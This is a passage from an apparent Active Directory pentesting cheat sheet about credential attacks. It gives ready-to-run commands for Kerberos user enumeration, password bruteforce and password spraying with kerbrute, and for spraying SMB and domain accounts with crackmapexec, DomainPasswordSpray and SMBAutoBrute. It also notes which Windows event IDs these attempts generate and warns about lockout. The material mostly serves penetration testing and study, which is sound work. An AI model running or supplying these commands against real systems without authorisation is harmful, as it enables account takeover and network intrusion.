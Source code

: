 ### Kerberos pre-auth bruteforcing

Using `kerbrute`, a tool to perform Kerberos pre-auth bruteforcing.

> Kerberos pre-authentication errors are not logged in Active Directory with a normal **Logon failure event (4625)**, but rather with specific logs to **Kerberos pre-authentication failure (4771)**.

- Username bruteforce
    
    ```powershell
    root@kali:~$ ./kerbrute_linux_amd64 userenum -d domain.local --dc 10.10.10.10 usernames.txt
    ```
    
- Password bruteforce
    
    ```powershell
    root@kali:~$ ./kerbrute_linux_amd64 bruteuser -d domain.local --dc 10.10.10.10 rockyou.txt username
    ```
    
- Password spray
    
    ```powershell
    root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt Password123
    root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt rockyou.txt
    root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt '123456' -v --delay 100 -o kerbrute-passwordspray-123456.log
    ```
    

### Spray a pre-generated passwords list

- Using `crackmapexec` and `mp64` to generate passwords and spray them against SMB services on the network.
    
    ```powershell
    crackmapexec smb 10.0.0.1/24 -u Administrator -p `(./mp64.bin Pass@wor?l?a)`
    ```
    
- Using `DomainPasswordSpray` to spray a password against all users of a domain.
    
    ```powershell
    # https://github.com/dafthack/DomainPasswordSpray
    Invoke-DomainPasswordSpray -Password Summer2021!
    # /!\ be careful with the account lockout !
    Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
    ```
    
- Using `SMBAutoBrute`.
    
    ```powershell
    Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1, Welcome1, 1qazXDR%+" -LockoutThreshold 5 -ShowVerbose
    ```
    